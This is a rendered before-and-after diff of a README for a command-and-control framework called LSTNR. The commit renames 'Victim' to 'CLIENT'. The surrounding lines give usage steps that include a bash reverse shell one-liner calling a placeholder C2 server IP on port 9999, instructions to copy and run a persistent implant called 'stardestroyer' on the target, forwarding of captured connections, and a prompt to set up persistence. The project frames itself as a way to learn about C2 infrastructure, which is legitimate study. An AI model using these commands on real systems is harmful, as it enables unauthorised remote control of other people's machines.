

Before and after one commit to BwithE/LSTNR, a Markdown page: README.md, 3 parts joined by grey strips. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -22,7 +22,7 @@ Build and understand C2 infrastructure.
     - `python3 deathstar-web.py`
 2. Open link in web browser
     - `firefox 127.0.0.1:5000`
-3. Have Victim connect to C2
+3. Have CLIENT connect to C2
     - Linux / MacOS
       - BASH
           - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
@@ -30,7 +30,7 @@ Build and understand C2 infrastructure.
           - This will continue to connect to the C2 server even after it 'drops'
           - Modify the 'SERVER_IP = ' in `stardestroyer.py`
           - `bash converter.sh stardestroyer.py`
-          - Copy `stardestoryer` to VICTIM
+          - Copy `stardestoryer` to CLIENT
           - `chmod +x stardestroyer`
           - `./stardestroyer`
     - Windows
@@ -55,7 +55,7 @@ Build and understand C2 infrastructure.
 # CLI C2 server
 1. Start the server
     - `python3 deathstar-term.py`
-2. Have Victim connect to C2
+2. Have CLIENT connect to C2
     - Linux / MacOS
       - BASH
           - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
@@ -63,7 +63,7 @@ Build and understand C2 infrastructure.
           - This will continue to connect to the C2 server even after it 'drops'
           - Modify the 'SERVER_IP = ' in `stardestroyer.py`
           - `bash converter.sh stardestroyer.py`
-          - Copy `stardestoryer` to VICTIM
+          - Copy `stardestoryer` to CLIENT
           - `chmod +x stardestroyer`
           - `./stardestroyer`
     - Windows
@@ -82,7 +82,7 @@ Build and understand C2 infrastructure.
 4. Forward the connection to your listener
     - On the CLI, list the connections.
       - Select `2)` to forward.
-      - Specify the `ID` of the `VICTIM` you'd like to forward.
+      - Specify the `ID` of the `CLIENT` you'd like to forward.
       - Then, type the IP of your `LISTENING` device.
 5.Catch the connection
     - Once you've caught the connection, begin setting up persistence.
```
